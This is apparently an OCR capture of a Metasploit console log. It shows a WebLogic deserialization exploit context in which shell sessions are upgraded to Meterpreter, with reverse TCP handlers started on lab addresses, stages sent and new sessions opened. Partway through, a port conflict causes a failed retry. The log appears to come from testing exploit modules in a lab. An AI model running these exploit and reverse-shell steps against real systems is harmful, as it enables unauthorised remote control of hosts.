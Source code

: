 ```metasploit
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 35
============
Name         : eth0
Hardware MAC : 02:42:c0:ab:54:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.171.84.2
IPv4 Netmask : 255.255.255.0

meterpreter > background
[*] Backgrounding session 6...
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 4
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [4]

[*] Upgrading session ID: 4
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 5
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [5]

[*] Upgrading session ID: 5
[*] Starting exploit/multi/handler
[-] Job 2 is listening on IP 192.168.56.107 and port 4433
[-] A job is listening on the same local port
[-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > jobs -l

Jobs
====

  Id  Name                    Payload                            Payload opts
  --  ----                    -------                            ------------
  2   Exploit: multi/handler  linux/x86/meterpreter/reverse_tcp  tcp://192.168.56.107:4433

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > [*] Meterpreter session 7 opened (192.168.56.107:4433 -> 192.168.56.1:60618) at 2023-07-26 11:10:35 -0400

[*] Stopping exploit/multi/handler

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 5
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [5]

[*] Upgrading session ID: 5
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > jobs[*] Meterpreter session 8 opened (192.168.56.107:4433 -> 192.168.56.1:60638) at 2023-07-26 11:11:01 -0400

[*] Stopping exploit/multi/handler
jobs -l

Jobs
====
```
